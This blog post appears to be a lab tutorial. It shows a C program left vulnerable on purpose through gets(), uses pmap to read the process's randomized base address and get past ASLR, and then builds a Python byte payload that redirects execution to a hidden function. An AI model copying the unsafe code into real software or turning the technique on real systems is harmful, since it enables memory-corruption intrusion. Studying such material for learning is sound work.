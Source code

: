```yaml
---
title: Shattering the stack (1)
published: true
---
```


This is a follow-up to the [previous post](https://gemesa.dev/shattering-the-stack-0) where we began exploring the world of buffer overflows. Now, we will examine how to circumvent ASLR using [pmap](https://linux.die.net/man/1/pmap) (or any similar tool that can determine randomized addresses at runtime). The source code is available [here](https://github.com/gemesa/shadow-shell).

### vulnerable code

We are using the same C code to demonstrate a simple buffer overflow vulnerability (due to the use of the unsafe `gets()` function):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gets() was removed from the C11 standard
char* gets(char* str);

int authenticate(void)
{
    char buff[10];
    char cmd[10];
    int auth = 0;

    puts("enter the password:");
    gets(buff);
    
    if(strcmp(buff, "12345"))
    {
        puts("wrong password");
    }
    else
    {
        puts("correct password");
        auth = 1;

    }
    
    if(auth)
    {
        puts("authenticated");
        puts("your files:");
        strcpy(cmd, "ls");
        system(cmd);
    }

    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/bof-server.c -g -o build/bof-server -fPIE -pie
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080
```

The [flags](https://sourceware.org/binutils/docs-2.23.1/bfd/BFD-front-end.html#BFD-front-end) include `DYNAMIC` which means the binary is meant to be used with dynamic linking. This flag is typically seen in shared libraries and PIE executables. We can also see a relatively low start address. For non-PIE executables the start address is usually a fixed higher address:

```
$ gcc lab/bof-server.c -g -o build/bof-server
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000401070
```

Now we verified our binary is indeed a PIE executable meaning if ASLR is activated the addresses will be randomized when we run the executable:

```
$ ./build/bof-server
enter the password:

```
Open an other terminal:

```
$ ps a | grep bof-server                                                      
  45008 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 45008
45008:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
0000561f40f3e000       4       4       0 r---- bof-server
0000561f40f3f000       4       4       0 r-x-- bof-server
0000561f40f40000       4       4       0 r---- bof-server
0000561f40f41000       4       4       4 r---- bof-server
0000561f40f42000       4       4       4 rw--- bof-server
0000561f42cf9000     132       4       4 rw---   [ anon ]
00007f20ed234000       8       4       4 rw---   [ anon ]
00007f20ed236000     152     148       0 r---- libc.so.6
00007f20ed25c000    1396     720       0 r-x-- libc.so.6
00007f20ed3b9000     308      64       0 r---- libc.so.6
00007f20ed406000      16      16      16 r---- libc.so.6
00007f20ed40a000       8       8       8 rw--- libc.so.6
00007f20ed40c000      40      28      28 rw---   [ anon ]
00007f20ed434000       4       4       0 r---- ld-linux-x86-64.so.2
00007f20ed435000     156     156       0 r-x-- ld-linux-x86-64.so.2
00007f20ed45c000      40      40       0 r---- ld-linux-x86-64.so.2
00007f20ed466000       8       8       8 r---- ld-linux-x86-64.so.2
00007f20ed468000       8       8       8 rw--- ld-linux-x86-64.so.2
00007ffcce354000     132      12      12 rw---   [ stack ]
00007ffcce37e000      16       0       0 r----   [ anon ]
00007ffcce382000       8       4       0 r-x--   [ anon ]
ffffffffff600000       4       0       0 --x--   [ anon ]
---------------- ------- ------- ------- 
total kB            2456    1244      96
```

Our goal is once again to jump to our `secret()` function:

```
$ objdump -d build/bof-server
...
0000000000001228 <secret>:
    1228:	55                   	push   %rbp
    1229:	48 89 e5             	mov    %rsp,%rbp
    122c:	48 8d 05 25 0e 00 00 	lea    0xe25(%rip),%rax        # 2058 <_IO_stdin_used+0x58>
    1233:	48 89 c7             	mov    %rax,%rdi
    1236:	e8 f5 fd ff ff       	call   1030 <puts@plt>
    123b:	90                   	nop
    123c:	5d                   	pop    %rbp
    123d:	c3                   	ret
...
```

The address `0x0000000000001228` is relative to the base address of our running process, so if it is `0x0000561f40f3e000` as we saw above then the address of `secret()` will be `0x0000561f40f3e000 + 0x0000000000001228`.

There are 2 problems:
- the base address will be only known after we run `bof-server`
- there is a high chance our address will contain non-printable characters like `\x10`, and passing these to a command-line executable can be tricky, especially if we are using a standard shell or command prompt, as these environments typically don't handle non-printable characters well in direct input

As a solution to these problems we will use the Python interpreter to run `bof-server` and pass our password (payload) to it:

```
$ python                
Python 3.11.6 (main, Oct  3 2023, 00:00:00) [GCC 13.2.1 20230728 (Red Hat 13.2.1-1)] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> cmd = ['stdbuf', '-o0', './build/bof-server']
>>> proc = subprocess.Popen(cmd, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Note: `stdbuf -o0` sets the stdout stream buffering mode to unbuffered. This necessary because without this some of the stdout was lost (stdout was almost empty after calling `proc.communicate()`).

Now our process is waiting for our password input so we can check the base address:

```
$ ps a | grep bof-server
  46104 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 46104
46104:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
00005651e7c8a000       4       4       0 r---- bof-server
...
```

Then calculate the address of `secret()` and pass our payload:

```
>>> hex(0x00005651e7c8a000+0x1228)
'0x5651e7c8b228'
>>> password = b'aaaaaaaaaabbbbcccccccc\x28\xb2\xc8\xe7\x51\x56'
>>> proc.stdin.write(password)
28
>>> proc.communicate()
(b'enter the password:\nwrong password\nauthenticated\nyour files:\narsenal\nbuild\nCargo.lock\nCargo.toml\nlab\nLICENSE\nMakefile\nREADME.md\ntarget\nsecret found!\n', b'')
>>> exit()
```

`proc.communicate()` returns the stdout and stderr logs. As we can see `secret()` was called because we see `secret found!` in the output.

References:
- https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb
